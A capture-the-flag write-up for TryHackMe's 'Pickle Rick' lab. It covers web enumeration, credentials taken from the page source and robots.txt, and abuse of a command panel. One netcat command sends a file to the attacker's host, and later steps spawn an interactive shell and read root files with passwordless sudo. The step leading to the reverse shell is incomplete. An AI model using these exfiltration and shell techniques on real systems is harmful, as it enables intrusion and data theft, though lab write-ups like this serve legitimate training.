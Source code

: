 ```yaml
---
title: Pickle Rick
categories: [Web, Easy]
tags: [web, easy, nmap, dirsearch, netcat]
image: images/Pickle Rick/Pickle Rick.png
---
```


# Pickle Rick - TryHackMe Writeup

This guide walks through solving the *Pickle Rick* TryHackMe challenge, a beginner-friendly CTF focused on web enumeration and shell techniques. Since TryHackMe machines use dynamic IPs, replace `<targetIP>` with the target machine's IP and `<yourIP>` with your attacking machine's IP.

## Step 1: Initial Reconnaissance with Nmap
Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV --min-rate=10000 <targetIP>
```
![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_2.png)
**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.

Visiting `http://<targetIP>` reveals a webpage with a challenge to find three "ingredients" (flags).

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_3.png)

## Step 2: Web Enumeration
Check the webpage's source code for clues, revealing a username: `R1ckRul3s`.  

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_4.png)

Run a directory scan using *dirsearch*:  
```
dirsearch -u http://<targetIP>
```

**Findings**:  
- `/robots.txt`: Contains `Wubbalubbadubdub`.  
- `/login.php`: A login page.

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_5.png)

## Step 3: Gaining Access
Log in using:  
- **Username**: `R1ckRul3s`  
- **Password**: `Wubbalubbadubdub`

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_6.png)

Upon login, a **Command Panel** allows command execution on the server.

## Step 4: Finding the First Ingredient
In the Command Panel, list files in `/var/www/html`. A file `Sup3rS3cretPickl3Ingred.txt` is present. Since `cat` is disabled, access it via the browser:  
```
http://<targetIP>/Sup3rS3cretPickl3Ingred.txt
```

This yields the **first ingredient**.

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_7.png)

## Step 5: Finding the Second Ingredient
Enumerate `/home/rick` via the Command Panel, finding `second ingredients`. Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003 > file.txt
```

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_8.png)

In the Command Panel, send the file:  
```
/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'
```

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_9.png)

Read `file.txt` to obtain the **second ingredient**.

## Step 6: Escalating Privileges and Finding the Third Ingredient
Check *sudo* privileges in the Command Panel:  
```
sudo -l
```

**Output**: The user can run any command with *sudo* without a password.

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_10.png)

Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003
```

![Pickle-Rick](images/Pickle%20Rick/thm_pickle-rick_11.png)

Once connected, spawn an interactive shell:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
or
bash -i
```

## Step 7: Locating the Third Ingredient

Alternatively, use *sudo* to read the file in `/root`:  
```
sudo cat /root/3rd.txt
```

## Summary
- **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt` via the browser.  
- **Second Ingredient**: Transferred from `/home/rick/'second ingredients'` using *netcat*.  
- **Third Ingredient**: Retrieved from  `/root/3rd.txt` via a reverse shell with *sudo* privileges.

This streamlined approach uses basic enumeration, web exploitation, and reverse shell techniques to efficiently complete the challenge.